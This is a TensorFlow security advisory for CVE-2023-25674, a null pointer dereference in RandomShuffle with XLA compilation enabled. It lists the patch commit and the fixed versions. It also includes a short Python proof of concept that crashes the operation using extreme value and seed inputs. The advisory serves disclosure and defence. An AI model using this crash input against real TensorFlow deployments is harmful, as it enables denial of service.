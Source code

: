 ## TFSA-2023-009: NPE in RandomShuffle with XLA enable

### CVE Number
CVE-2023-25674

### Impact
NPE in RandomShuffle with XLA enable 
```python
import tensorflow as tf

func = tf.raw_ops.RandomShuffle
para = {'value': 1e+20, 'seed': -4294967297, 'seed2': -2147483649}

@tf.function(jit_compile=True)
def test():
   y = func(**para)
   return y

test()
```

### Patches
We have patched the issue in GitHub commit [728113a3be690facad6ce436660a0bc1858017fa](https://github.com/tensorflow/tensorflow/commit/728113a3be690facad6ce436660a0bc1858017fa).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx
